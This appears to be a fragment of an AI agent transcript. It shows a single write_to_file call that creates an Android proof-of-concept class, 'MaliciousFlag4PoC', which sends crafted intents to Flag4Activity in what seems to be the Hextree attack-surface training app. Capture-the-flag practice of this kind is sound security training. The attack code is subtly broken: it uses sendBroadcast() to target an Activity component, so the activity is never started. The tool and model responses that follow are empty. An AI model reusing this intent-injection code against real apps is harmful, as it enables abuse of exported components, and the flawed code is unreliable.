 
Function Call: id=None args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: Send PREPARE_ACTION\n        sendAction(PREPARE_ACTION);\n\n        // Step 2: Send BUILD_ACTION\n        sendAction(BUILD_ACTION);\n\n        // Step 3: Send GET_FLAG_ACTION\n        sendAction(GET_FLAG_ACTION);\n\n        // Step 4: Send a final intent to trigger the flag\n        sendAction(""); // Empty action\n\n        Log.i("MaliciousFlag4PoC", "Intents sent");\n        finish(); // Close the activity after sending intents\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n    }\n}\n'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---

